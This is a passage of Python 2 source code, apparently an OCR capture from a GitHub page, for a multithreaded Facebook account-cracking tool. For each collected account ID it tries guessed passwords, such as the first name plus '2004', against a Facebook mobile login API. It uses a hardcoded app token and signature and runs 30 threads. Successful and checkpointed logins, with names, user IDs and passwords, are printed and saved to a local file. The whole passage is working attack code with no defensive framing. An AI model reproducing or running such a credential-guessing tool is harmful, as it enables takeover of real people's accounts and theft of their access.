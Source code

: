                     oke.write('\n\xe2\x9e\xa0 SUCESS \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list2 + '\n')
                    oke.close()
                    oks.append(jamet)
                elif 'www.facebook.com' in ko['error_msg']:
                    print ''
                    print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} CHEKPOINT'
                    print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                    print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                    print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list2
                    print ''
                    cek = open('done/group.txt', 'a')
                    cek.write('\n\xe2\x9e\xa0 CHEKPOINT \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list2 + '\n')
                    cek.close()
                    cekpoint.append(jamet)
                else:
                    list3 = j['first_name'].lower() + '2004'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + jamet + '&locale=en_US&password=' + list3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    ko = json.load(data)
                    if 'access_token' in ko:
                        print ''
                        print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} SUCESS'
                        print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                        print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                        print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list3
                        print ''
                        oke = open('done/group.txt', 'a')
                        oke.write('\n\xe2\x9e\xa0 SUCESS \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list3 + '\n')
                        oke.close()
                        oks.append(jamet)
                    elif 'www.facebook.com' in ko['error_msg']:
                        print ''
                        print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} CHEKPOINT'
                        print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                        print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                        print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list3
                        print ''
                        cek = open('done/group.txt', 'a')
                        cek.write('\n\xe2\x9e\xa0 CHEKPOINT \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list3 + '\n')
                        cek.close()
                        cekpoint.append(jamet)


        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print '\n\033[31;1m[\033[33;1m+\033[31;1m]'+40*'\033[33;1m─'+'\033[31;1m[\033[33;1m+\033[31;1m]'
    print '\033[37;1m{\033[32;1m*\033[37;1m}Done'
    print '\033[37;1m{\033[32;1m*\033[37;1m}save : done/group.txt'
    print '\033[37;1m{\033[32;1m*\033[37;1m}Checkpoint : ' + str(len(cekpoint))
    print '\033[37;1m{\033[32;1m*\033[37;1m}Sucess     : ' + str(len(oks))
    print '\033[31;1m[\033[33;1m+\033[31;1m]'+40*'\033[33;1m─'+'\033[31;1m[\033[33;1m+\033[31;1m]'
    balik = raw_input('\n[<back>]\n')
    os.system('python2 main.py')
